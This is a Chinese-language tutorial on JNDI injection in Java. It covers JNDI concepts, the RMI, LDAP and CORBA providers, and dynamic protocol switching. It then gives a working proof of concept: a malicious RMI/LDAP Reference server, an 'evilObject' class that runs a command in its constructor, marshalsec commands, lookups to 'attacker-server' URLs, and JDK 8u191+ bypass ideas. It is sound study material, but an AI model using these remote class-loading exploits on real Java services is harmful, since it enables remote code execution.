## JNDI
### 简介
`JNDI`(Java Naming Directory Interface)是`Java`提供的一个访问命令和目录服务的`API`, 命名服务将名称和对象联系起来, 使得可以从名称访问对象, [官方链接](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html).


`JNDI`包含在`Java SE`平台中, 要使用`JNDI`时, 必须要拥有`JNDI`类和一个或多个服务提供者, `JDK`包括以下命名或者目录服务的服务提供者:
 - DNS: Domain Name Service (域名服务)
 - RMI: Java Remote Method Invocation (Java方法远程调用)
 - LDAP: Lightweight Directory Access Protocol (轻量级目录访问协议)
 - CORBA: Common Object Request Broker Architecture (公共对象请求代理体系结构)

`JNDI`接口中主要分为`5`个包, 其中最重要的是`javax.naming`包, 包含了访问目录服务所需要的类和接口, 例如`Context`、`Bindings`、`References`、`lookup`等:
 - javax.naming
 - javax.naming.spi
 - javax.naming.ldap
 - javax.naming.event
 - javax.naming.directory


### 示例代码
这里通过实现一个简单的例子来更好的理解`JNDI`.

 - Demo.java

```java
package org.h3rmesk1t.jndi.demo;

import java.rmi.Remote;
import java.rmi.RemoteException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 11:12 上午
 */
public interface Demo extends Remote {

    public String Demo(String name) throws RemoteException;
}
```

 - DemoImpl.java

```java
package org.h3rmesk1t.jndi.demo;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 11:12 上午
 */
public class DemoImpl extends UnicastRemoteObject implements Demo {
    
    protected DemoImpl() throws RemoteException {
        super();
    }
    
    public String Demo(String name) throws RemoteException {
        return "Hello, " + name;
    }
}
```

 - CallService.java

```java
package org.h3rmesk1t.jndi.demo;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.Properties;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 11:13 上午
 */
public class CallService {

    public static void main(String[] args) throws Exception {

        // 初始化默认环境
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        Context context = new InitialContext(env);

        // 创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        Demo demo = new DemoImpl();
        registry.bind("demo", demo);

        // 查找数据
        Demo rDemo = (Demo) context.lookup("demo");
        System.out.println(rDemo.Demo("h3rmesk1t"));
    }
}
```


## SPI
在`JDK`中内置了几个`Service Provider`, 分别是`RMI`、`LDAP`和`CORBA`. 但是这几个服务本身和`JNDI`没有直接的依赖, 而是通过`SPI`接口实现了联系.

### RMI
`RMI`(Remote Method Invocation), 即`Java`远程方法调用, 为应用提供了远程调用的接口, 一个简单的`RMI`主要由三部分组成, 分别是接口、服务端和客户端. 具体详见之间分析的[Java安全——RMI学习](https://github.com/H3rmesk1t/Learning_summary/blob/main/2022-1-19/Java%E5%AE%89%E5%85%A8%E5%AD%A6%E4%B9%A0-RMI%E5%AD%A6%E4%B9%A0.md).

### LDAP
`LDAP`(Lightweight Directory Access Protocol), 即轻量级目录访问协议. 它提供了一种查询、浏览、搜索和修改互联网目录数据的机制, 运行在`TCP/IP`协议栈上, 基于`C/S`架构.

`Java`对象在`LDAP`目录中也有多种存储形式:
 - Java 序列化
 - JNDI Reference
 - Marshalled 对象
 - Remote Location

`LDAP`中常见的属性定义如下:

```code
String  X.500 AttributeType
------------------------------
CN      commonName
L       localityName
ST      stateOrProvinceName
O       organizationName
OU      organizationalUnitName
C       countryName
STREET  streetAddress
DC      domainComponent
UID     userid
```

其中需要注意的是:
 - `DC`: `Domain Component`, 组成域名的部分, 比如域名`evilpan.com`的一条记录可以表示为`dc=evilpan,dc=com`, 从右至左逐级定义.
 - `DN`: `Distinguished Name`, 由一系列属性(从右至左)逐级定义的, 表示指定对象的唯一名称.

### CORBA
`CORBA`是一个由`Object Management Group`(OMG)定义的标准. 在分布式计算的概念中, `Object Request Broker`(ORB))表示用于分布式环境中远程调用的中间件. 其实就是早期的一个`RPC`标准, `ORB`在客户端负责接管调用并请求服务端, 在服务端负责接收请求并将结果返回. `CORBA`使用接口定义语言(IDL)去表述对象的对外接口, 编译生成的`stub code`支持`Ada`、`C/C++`、`Java`、`COBOL`等多种语言. 其调用架构如下图所示:



一个简单的`CORBA`用户程序由三部分组成，分别是`IDL`、客户端和服务端:
 - IDL

```javascript
module HelloApp
{
  interface Hello
  {
  string sayHello();
  oneway void shutdown();
  };
};
```

- Server

```java
// HelloServer.java
import HelloApp.*;
import org.omg.CosNaming.*;
import org.omg.CosNaming.NamingContextPackage.*;
import org.omg.CORBA.*;
import org.omg.PortableServer.*;
import org.omg.PortableServer.POA;

import java.util.Properties;

class HelloImpl extends HelloPOA {
    
  public String sayHello() {
    return "Hello from server";
  }

  public void shutdown() {
      System.out.println("shutdown");
  }
}


public class HelloServer {

  public static void main(String args[]) {
    try{
      // create and initialize the ORB
      ORB orb = ORB.init(args, null);

      // get reference to rootpoa & activate the POAManager
      POA rootpoa = POAHelper.narrow(orb.resolve_initial_references("RootPOA"));
      rootpoa.the_POAManager().activate();

      // create servant
      HelloImpl helloImpl = new HelloImpl();

      // get object reference from the servant
      org.omg.CORBA.Object ref = rootpoa.servant_to_reference(helloImpl);
      Hello href = HelloHelper.narrow(ref);
          
      // get the root naming context
      // NameService invokes the name service
      org.omg.CORBA.Object objRef =
          orb.resolve_initial_references("NameService");
      // Use NamingContextExt which is part of the Interoperable
      // Naming Service (INS) specification.
      NamingContextExt ncRef = NamingContextExtHelper.narrow(objRef);

      // bind the Object Reference in Naming
      String name = "Hello";
      NameComponent path[] = ncRef.to_name( name );
      ncRef.rebind(path, href);

      System.out.println("HelloServer ready and waiting ...");

      // wait for invocations from clients
      orb.run();
    } 
        
      catch (Exception e) {
        System.err.println("ERROR: " + e);
        e.printStackTrace(System.out);
      }
          
      System.out.println("HelloServer Exiting ...");
        
  }
}
```

 - Client

```java
import HelloApp.*;
import org.omg.CosNaming.*;
import org.omg.CosNaming.NamingContextPackage.*;
import org.omg.CORBA.*;

public class HelloClient
{
  static Hello helloImpl;

  public static void main(String args[])
    {
      try{
        // create and initialize the ORB
        ORB orb = ORB.init(args, null);

        // get the root naming context
        org.omg.CORBA.Object objRef = 
            orb.resolve_initial_references("NameService");
        // Use NamingContextExt instead of NamingContext. This is 
        // part of the Interoperable naming Service.  
        NamingContextExt ncRef = NamingContextExtHelper.narrow(objRef);
 
        // resolve the Object Reference in Naming
        String name = "Hello";
        helloImpl = HelloHelper.narrow(ncRef.resolve_str(name));

        System.out.println("Obtained a handle on server object: " + helloImpl);
        System.out.println(helloImpl.sayHello());

        helloImpl.shutdown();

        } catch (Exception e) {
          System.out.println("ERROR : " + e) ;
          e.printStackTrace(System.out);
        }
    }

}
```

## 动态协议转换
在上文的示例代码中都手动设置了对应服务的工厂以及对应服务的`PROVIDER_URL`, 其实在`JNDI`中是可以进行动态协议转换的, 示例代码如下:

 - Demo-1
```java
Context context = new InitialContext();
context.lookup("rmi://attacker-server/refObject");
context.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
context.lookup("iiop://attacker-server/bar");
```

 - Demo-2
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:8888");
Context context = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
context.lookup(name);
```

在`Demo-1`的代码中没有设置对应服务的工厂以及`PROVIDER_URL`, `JNDI`根据传递的`URL`协议自动转换与设置了对应的工厂及`PROVIDER_URL`. 在`Demo-2`的代码中可以看到, 即使服务端提前设置了工厂与`PROVIDER_URL`也没有什么影响, 当`lookup`操作时的参数能够被攻击者控制时, 依旧会根据攻击者提供的`URL`进行动态转换并覆盖掉最初设置的`PROVIDER_URL`, 将`lookup`操作指向攻击者控制的服务器.

从源码层面上来看看具体的流程, 跟进`InitialContext#lookup`方法, 在返回值中会调用`InitialContext#getURLOrDefaultInitCtx`方法, 继续跟进该方法, 在这里会进行动态转化操作.




`JDK`中默认支持的`JNDI`自动协议转换以及对应的工厂类如下:
|协议|schema|Context|
|:----|:----|:----|
|DNS|dns://|com.sun.jndi.url.dns.dnsURLContext|
|RMI|rmi://|com.sun.jndi.url.rmi.rmiURLContext|
|LDAP|ldap://|com.sun.jndi.url.ldap.ldapURLContext|
|LDAP|ldaps://|com.sun.jndi.url.ldaps.ldapsURLContext|
|IIOP|iiop://|com.sun.jndi.url.iiop.iiopURLContext|
|IIOP|iiopname://|com.sun.jndi.url.iiopname.iiopnameURLContext|
|IIOP|corbaname://|com.sun.jndi.url.corbaname.corbanameURLContext|

## 命名引用
`JNDI`定义了命名引用(Naming References), 简称引用(References). 其大致过程就是通过绑定一个引用, 将对象存储到命名服务或目录服务中, 命名管理器(Naming Manager)可以将引用解析为关联的原始对象. 引用由`Reference`类来表示, 它由地址(RefAddress)的有序列表和所引用对象的信息组成. 而每个地址包含了如何构造对应的对象的信息, 包括引用对象的`Java`类名, 以及用于创建对象的`object factory`类的名称和位置. `Reference`可以使用工厂来构造对象, 当使用`lookup`查找对象时, `Reference`将使用提供的工厂类加载地址来加载工厂类, 工厂类将构造出需要的对象, 可以从远程加载地址来加载工厂类. 示例代码如下:

```java
Reference reference = new Reference("refClassName","FactoryClassName",FactoryURL);
ReferenceWrapper wrapper = new ReferenceWrapper(reference);
ctx.bind("refObj", wrapper);
```

当有客户端通过`lookup("refObj")`获取远程对象时, 获得到一个`Reference`引用类, 客户端会首先去本地的`CLASSPATH`去寻找被标识为`refClassName`的类, 如果本地未找到的话, 则会去请求`http://example.com:12345/FactoryClassName.class`加载工厂类.

对于`JNDI`的攻击, 其攻击过程可以归纳为下图内容:



 - ①: 攻击者为易受攻击的`JNDI`的`lookup`方法提供了`LDAP/RMI URL`.
 - ②: 目标服务器连接到远端`LDAP/RMI`服务器, `LDAP/RMI`服务器返回恶意`JNDI`引用.
 - ③: 目标服务器解码`JNDI`引用.
 - ④: 从远端`LDAP/RMI`服务器获取`Factory`类.
 - ⑤: 目标服务器实例化`Factory`类.
 - ⑥: 执行恶意`exploit`.

对于`JNDI`注入, 在后续的`JDK`版本中对于`RMI/LDAP`两个攻击向量都做了默认情况的限制:
 - JDK 5U45、6U45、7u21、8u121 开始 java.rmi.server.useCodebaseOnly 默认配置为 true
 - JDK 6u132、7u122、8u113 开始 com.sun.jndi.rmi.object.trustURLCodebase 默认值为 false
 - JDK 11.0.1、8u191、7u201、6u211 com.sun.jndi.ldap.object.trustURLCodebase 默认为 false


## 漏洞利用
### RMI
通过`RMI`进行`JNDI`注入的步骤大致为:
 - 攻击者构造恶意对象, 在其构造方法中加入恶意代码, 上传至服务器中等待远程加载.
 - 构造恶意 RMI 服务器, bind 一个 ReferenceWrapper 对象, ReferenceWrapper 对象是一个 Reference 对象的封装.
 - Reference 对象中包含了一个远程地址, 远程地址中可以加载恶意对象 class.
 - JNDI 在 lookup 操作过程中会解析 Reference 对象, 远程加载恶意对象触发 exploit.

再来看看`javax.naming.Reference`中的构造方法:
 - className: 远程加载时所使用的的类名.
 - classFactory: 加载的 class 中需要实例化类的名称.
 - classFactoryLocation: 提供 classes 数据的地址可以是 file/ftp/http 等协议.

```java
public Reference(String className, String factory, String factoryLocation) {
    this(className);
    classFactory = factory;
    classFactoryLocation = factoryLocation;
}
```

#### 示例代码

 - JNDIClient.java

```java
package org.h3rmesk1t.jndi.RMIAttack;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/5 11:12 上午
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        String url = "rmi://127.0.0.1:1099/reference";
        Context ctx = new InitialContext();
        ctx.lookup(url);
    }
}
```

 - JNDIServer.java

```java
package org.h3rmesk1t.jndi.RMIAttack;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 6:09 上午
 */
public class JNDIServer {

    public static void main(String[] args) throws Exception {

        String className = "evilObject";
        String factoryName = "evilObject";
        String factoryLocationURL = "http://127.0.0.1:4444/";

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(className, factoryName, factoryLocationURL);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        System.out.println("Binding 'referenceWrapper' to 'rmi://127.0.0.1:1099/reference'");
        registry.bind("reference", referenceWrapper);
    }
}
```

 - evilObject.java

```java
import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/5 11:17 上午
 */
public class evilObject {

    public evilObject() {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



运行步骤:
 - 编译恶意类文件: `javac evilObject`
 - 在恶意类文件所在处起一个服务: `python3 -m http.server 4444`
 - 运行`JNDIServer`
 - 运行`JNDIClient`

注意事项:
 - `evilObject.java`及其编译的文件放到其它目录下, 避免在当前目录中直接找到该类来成功实现命令执行
 - `evilObject.java`文件不能申明包名, 声明后编译的`class`文件函数名称会加上包名从而不匹配
 - 注意使用`java`版本, 复现时需要满足可用`jdk`版本

除了利用代码搭建一个`RMI`服务外, 可以直接使用现成的工具`marshalsec`起一个`RMI`服务:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:80/#testObject 7777
```

#### 过程分析
在`JNDIClient.java`文件中的`GenericURLContext#lookup`方法处下断点.


跟进`GenericURLContext#lookup`方法, 会进一步调用`RegistryContext#lookup`方法.


跟进`RegistryContext#lookup`方法, 这里通过调用`this.registry.lookup`获取到了`ReferenceWrapper_Stub`对象, 并与`reference`一起传入了`this.decodeObject`方法.



跟进`RegistryContext#decodeObject`方法, 检测`var1`是否是`RemoteReference`的实例, 是的话则通过`getReference`方法获取`Reference`对象.



继续跟进`NamingManager#getObjectInstance`, 调用`getObjectFactoryFromReference`方法, 如果本地存在需要获取的类, 则会使用在本地直接获取; 如果本地不存在并且可以从远程获取到该类, 则会远程加载类. 获取到类之后, 会在`return`返回语句中调用`newInstance`方法, 会触发类的构造方法. 由于我们把恶意语句写在了构造方法处, 因此在这里会被触发执行.






#### 调用链

```java
getObjectFactoryFromReference(Reference, String):163, NamingManager (javax.naming.spi), NamingManager.java
getObjectInstance(Object, Name, Context, Hashtable):319, NamingManager (javax.naming.spi), NamingManager.java
decodeObject(Remote, Name):464, RegistryContext (com.sun.jndi.rmi.registry), RegistryContext.java
lookup(Name):124, RegistryContext (com.sun.jndi.rmi.registry), RegistryContext.java
lookup(String):205, GenericURLContext (com.sun.jndi.toolkit.url), GenericURLContext.java
lookup(String):417, InitialContext (javax.naming), InitialContext.java
main(String[]):17, JNDIClient (jndi_test1), JNDIClient.java
```


### LDAP
`LDAP`服务只是把协议名改成`ldap`即可, 分析过程和`RMI`类似.

#### 示例代码
 - JNDIClient

```java
package org.h3rmesk1t.jndi.LDAPAttack;

import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 7:03 上午
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        new InitialContext().lookup("ldap://127.0.0.1:6666/evilObject");
    }
}
```



#### 过程分析
这里利用`marshalsec`起一个`LDAP`服务, 同样将断点下在`lookup`处. 之前的步骤和`RMI`一样, 这里直接分析后面不同的地方.

跟进`GenericURLContext#lookup`方法, 进一步调用`PartialCompositeContext#lookup`方法, 在`for`循环的条件中先调用`ComponentContext#p_lookup`方法.



跟进`ComponentContext#p_lookup`方法, 由于`var4.getStatus()`的值为`2`, 因此进一步调用`LdapCtx#c_lookup`方法.



跟进`LdapCtx#c_lookup`方法, 和之前分析`RMI`的过程一样, 跟进`Obj#decodeObject`方法, 在该方法中存在几种序列化数据的处理, 详细可见安全客上的这篇文章[JNDI with LDAP](https://www.anquanke.com/post/id/201181).



回到上一步, 跟进`DirectoryManager#getObjectInstance`方法, 再调用`getObjectFactoryFromReference`方法, 之后和`RMI`中一样的操作了, 判断本地是否存在需要获取的类, 不存在则远程加载, 在`return`返回语句中调用`newInstance`方法, 会触发类的构造方法, 从而来执行`exploit`.



#### 调用链

```java
getObjectFactoryFromReference(Reference, String):142, NamingManager (javax.naming.spi), NamingManager.java
getObjectInstance(Object, Name, Context, Hashtable, Attributes):189, DirectoryManager (javax.naming.spi), DirectoryManager.java
c_lookup(Name, Continuation):1085, LdapCtx (com.sun.jndi.ldap), LdapCtx.java
p_lookup(Name, Continuation):542, ComponentContext (com.sun.jndi.toolkit.ctx), ComponentContext.java
lookup(Name):177, PartialCompositeContext (com.sun.jndi.toolkit.ctx), PartialCompositeContext.java
lookup(String):205, GenericURLContext (com.sun.jndi.toolkit.url), GenericURLContext.java
lookup(String):94, ldapURLContext (com.sun.jndi.url.ldap), ldapURLContext.java
lookup(String):417, InitialContext (javax.naming), InitialContext.java
main(String[]):14, JNDIClient (jndi_test1), JNDIClient.java
```


## 绕过JDK 8u191+等高版本限制
自[jdk8u191-b02](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/rev/2db6890a9567#l1.33)版本后, 新添加了`com.sun.jndi.ldap.object.trustURLCodebase`默认为`false`的限制, 在`decodeObject`方法处新增了一个读`trustURLCodebase`的判断, 而这个值默认是为`false`的, 因此无法通过`RMI`、`LDAP`加载远程的`Reference`工厂类.


两种绕过方法如下：
 - 找到一个受害者本地`CLASSPATH`中的类作为恶意的`Reference Factory`工厂类, 并利用这个本地的`Factory`类执行命令.
 - 利用`LDAP`直接返回一个恶意的序列化对象, `JNDI`注入依然会对该对象进行反序列化操作, 利用反序列化`Gadget`完成命令执行.

这两种方式都依赖受害者本地`CLASSPATH`中环境, 需要利用受害者本地的`Gadget`进行攻击.

## 参考
 - [JAVA JNDI注入知识详解](https://www.anquanke.com/post/id/205447)
 - [JNDI 注入漏洞的前世今生](https://evilpan.com/2021/12/13/jndi-injection/)
 - [Lesson: Overview of JNDI](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
 - [HPE Security Fortify, Software Security Research](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
